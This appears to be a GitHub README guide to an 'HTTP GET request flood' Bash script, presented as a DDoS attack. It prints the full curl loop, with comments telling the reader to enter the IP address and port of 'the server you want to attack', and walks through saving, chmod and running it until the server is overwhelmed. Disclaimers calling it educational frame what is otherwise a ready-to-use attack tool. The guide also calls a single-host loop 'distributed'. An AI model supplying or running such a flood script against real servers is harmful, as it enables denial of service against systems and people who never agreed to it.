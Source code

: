 ## Using the HTTP GET Request Flood Bash Script

**Disclaimer**: This guide is for educational purposes only. Unauthorized and malicious use of this script to flood requests to a server is illegal and unethical.

This guide explains how to use the provided Bash script to simulate an HTTP GET request flood. This type of activity, known as a Distributed Denial of Service (DDoS) attack, can overload a server and make it inaccessible to legitimate users.

# Prerequisites

- A Unix-like terminal (Linux or macOS)
- The curl command-line tool

# Steps

1. Access the Bash Script:

    Open a terminal on your system. You can find the terminal application in the "Applications" or "Utilities" folder.

2. Copy the Script:

    Copy the following Bash script and paste it into your terminal:

    ```bash
    #!/bin/bash

    IP_ADDRESS="127.0.0.1" # Change this to the IP address of the server you want to attack
    PORT=80 # Change this to the port number of the server you want to attack
    NUM_REQUESTS=100000 # Change this to the number of requests you want to send

    for ((i = 1; i <= $NUM_REQUESTS; i++)); do
        echo "Sending GET request $i to IP address $IP_ADDRESS"
        curl -sS "http://$IP_ADDRESS:$PORT" # -sS flag to hide the progress bar
        echo "Received response for request $i"
    done
    ```
3. Modify Script Parameters:

    Adjust the following variables in the script according to your testing environment:

    - IP_ADDRESS: Replace with the IP address of the server you want to target.
    - PORT: Replace with the port number of the server you want to target.
    - NUM_REQUESTS: Replace with the number of requests you want to send to the server.

4. Save the Script:

    Save the file with a .sh extension, such as http_flood.sh.

5. Make the Script Executable:

    In your terminal, navigate to the directory containing the script and make it executable by running:

    ```bash
    chmod +x http_flood.sh
    ```
6. Run the Script:

    Execute the script by running:
    ```bash
    ./http_flood.sh
    ```
7. Observe the Effect:

    The script will start sending HTTP GET requests to the specified server IP address and port. It will repeat this process according to the NUM_REQUESTS value you set. The server may become overwhelmed, impacting its availability.

## Warning

This guide and the provided script are for educational purposes only. Launching real Distributed Denial of Service (DDoS) attacks is illegal and unethical. Always use your knowledge responsibly and respect the security and integrity of computer systems and networks.